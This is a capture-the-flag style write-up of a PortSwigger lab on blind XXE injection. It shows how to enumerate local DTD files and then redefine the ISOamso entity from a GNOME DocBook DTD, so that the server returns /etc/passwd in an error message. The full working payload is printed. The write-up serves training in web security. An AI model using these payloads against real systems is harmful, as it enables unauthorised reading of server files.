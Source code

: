 # Exploiting XXE to retrieve data by repurposing a local DTD

## Introduction

Welcome to my another writeup! In this Portswigger Labs [lab](https://portswigger.net/web-security/xxe/blind/lab-xxe-trigger-error-message-by-repurposing-local-dtd), you'll learn: Exploiting XXE to retrieve data by repurposing a local DTD! Without further ado, let's dive in.

- Overall difficulty for me (From 1-10 stars): ★★★★☆☆☆☆☆☆

## Background

This lab has a "Check stock" feature that parses XML input but does not display the result.

To solve the lab, trigger an error message containing the contents of the `/etc/passwd` file.

You'll need to reference an existing DTD file on the server and redefine an entity from it.

## Exploitation

**Home page:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/XXE-Injection/XXE-9/images/Pasted%20image%2020221225073630.png)

In previous labs, we found that **there is an XXE injection vulnerability in "Check stock" feature, which parses XML input.**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/XXE-Injection/XXE-9/images/Pasted%20image%2020221225073702.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/XXE-Injection/XXE-9/images/Pasted%20image%2020221225073715.png)

**Original XML data:**
```xml
<?xml version="1.0" encoding="UTF-8"?>
<stockCheck>
    <productId>1</productId>
    <storeId>1</storeId>
</stockCheck>
```

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/XXE-Injection/XXE-9/images/Pasted%20image%2020221225073802.png)

**Invalid XML data:**
```xml
<?xml version="1.0" encoding="UTF-8"?>
<stockCheck>
    <productId>a</productId>
    <storeId>1</storeId>
</stockCheck>
```

However, it does not display the result, which indicates that this is a blind XXE injection.

**To exploit blind XXE injection, we could leverage a local DTD.**

But first, we need to locate a suitable DTD.

**To do so, we can enumerate local DTD files via:**
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY % local_dtd SYSTEM "file:///file.dtd"> %local_dtd; ]>
<stockCheck>
    <productId>1</productId>
    <storeId>1</storeId>
</stockCheck>
```

**Let's try `/usr/share/yelp/dtd/docbookx.dtd`, which is a common DTD file in GNOME desktop environment:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/XXE-Injection/XXE-9/images/Pasted%20image%2020221225074809.png)

**Hmm... No error. What if I provide an invalid DTD file?**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/XXE-Injection/XXE-9/images/Pasted%20image%2020221225074839.png)

The web server couldn't find that DTD file.

So, let's use `/usr/share/yelp/dtd/docbookx.dtd` as our local DTD file!

**Next, let's inspect that file:**
```xml
<!ENTITY % ISOamsa PUBLIC
"ISO 8879:1986//ENTITIES Added Math Symbols: Arrow Relations//EN//XML"
"isoamsa.ent">
<!ENTITY % ISOamsb PUBLIC
"ISO 8879:1986//ENTITIES Added Math Symbols: Binary Operators//EN//XML"
"isoamsb.ent">
<!ENTITY % ISOamsc PUBLIC
"ISO 8879:1986//ENTITIES Added Math Symbols: Delimiters//EN//XML"
"isoamsc.ent">
<!ENTITY % ISOamsn PUBLIC
"ISO 8879:1986//ENTITIES Added Math Symbols: Negated Relations//EN//XML"
"isoamsn.ent">
<!ENTITY % ISOamso PUBLIC
"ISO 8879:1986//ENTITIES Added Math Symbols: Ordinary//EN//XML"
"isoamso.ent">
<!ENTITY % ISOamsr PUBLIC
"ISO 8879:1986//ENTITIES Added Math Symbols: Relations//EN//XML"
"isoamsr.ent">
<!ENTITY % ISObox PUBLIC
"ISO 8879:1986//ENTITIES Box and Line Drawing//EN//XML"
"isobox.ent">
<!ENTITY % ISOcyr1 PUBLIC
"ISO 8879:1986//ENTITIES Russian Cyrillic//EN//XML"
"isocyr1.ent">
<!ENTITY % ISOcyr2 PUBLIC
"ISO 8879:1986//ENTITIES Non-Russian Cyrillic//EN//XML"
"isocyr2.ent">
<!ENTITY % ISOdia PUBLIC
"ISO 8879:1986//ENTITIES Diacritical Marks//EN//XML"
"isodia.ent">
<!ENTITY % ISOgrk1 PUBLIC
"ISO 8879:1986//ENTITIES Greek Letters//EN//XML"
"isogrk1.ent">
<!ENTITY % ISOgrk2 PUBLIC
"ISO 8879:1986//ENTITIES Monotoniko Greek//EN//XML"
"isogrk2.ent">
<!ENTITY % ISOgrk3 PUBLIC
"ISO 8879:1986//ENTITIES Greek Symbols//EN//XML"
"isogrk3.ent">
<!ENTITY % ISOgrk4 PUBLIC
"ISO 8879:1986//ENTITIES Alternative Greek Symbols//EN//XML"
"isogrk4.ent">
<!ENTITY % ISOlat1 PUBLIC
"ISO 8879:1986//ENTITIES Added Latin 1//EN//XML"
"isolat1.ent">
<!ENTITY % ISOlat2 PUBLIC
"ISO 8879:1986//ENTITIES Added Latin 2//EN//XML"
"isolat2.ent">
<!ENTITY % ISOnum PUBLIC
"ISO 8879:1986//ENTITIES Numeric and Special Graphic//EN//XML"
"isonum.ent">
<!ENTITY % ISOpub PUBLIC
"ISO 8879:1986//ENTITIES Publishing//EN//XML"
"isopub.ent">
<!ENTITY % ISOtech PUBLIC
"ISO 8879:1986//ENTITIES General Technical//EN//XML"
"isotech.ent">
%ISOamsa;
%ISOamsb;
%ISOamsc;
%ISOamsn;
%ISOamso;
%ISOamsr;
%ISObox;
%ISOcyr1;
%ISOcyr2;
%ISOdia;
%ISOgrk1;
%ISOgrk2;
%ISOgrk3;
%ISOgrk4;
%ISOlat1;
%ISOlat2;
%ISOnum;
%ISOpub;
%ISOtech;
```

As you can see, it contains **entities called `ISOxxxx`.**

**Then, we can repurpose one of those entities!**

**Let's pick `ISOamso`:**
```xml
<!DOCTYPE foo [ 
<!ENTITY % local_dtd SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd">
<!ENTITY % ISOamso '
<!ENTITY &#x25; file SYSTEM "file:///etc/passwd">
<!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///nonexistent/&#x25;file;&#x27;>">
&#x25;eval;
&#x25;error;
'>
%local_dtd;
]>
```

**The above XXE payload will:**

- Define an XML parameter entity called `local_dtd`, containing the contents of the external DTD file that exists on the server filesystem.
- Redefine the XML parameter entity called `ISOamso`, which is already defined in the external DTD file. The entity is redefined as containing the [error-based XXE exploit](https://portswigger.net/web-security/xxe/blind#exploiting-blind-xxe-to-retrieve-data-via-error-messages) that was already described, for triggering an error message containing the contents of the `/etc/passwd` file.
- Use the `local_dtd` entity, so that the external DTD is interpreted, including the redefined value of the `custom_entity` entity. This results in the desired error message.

**Complete payload:**
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ 
<!ENTITY % local_dtd SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd">
<!ENTITY % ISOamso '
<!ENTITY &#x25; file SYSTEM "file:///etc/passwd">
<!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///nonexistent/&#x25;file;&#x27;>">
&#x25;eval;
&#x25;error;
'>
%local_dtd;
]>
<stockCheck>
    <productId>1</productId>
    <storeId>1</storeId>
</stockCheck>
```

**Let's send our payload!**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/XXE-Injection/XXE-9/images/Pasted%20image%2020221225075716.png)

Boom! We did it!

# What we've learned:

1. Exploiting XXE to retrieve data by repurposing a local DTD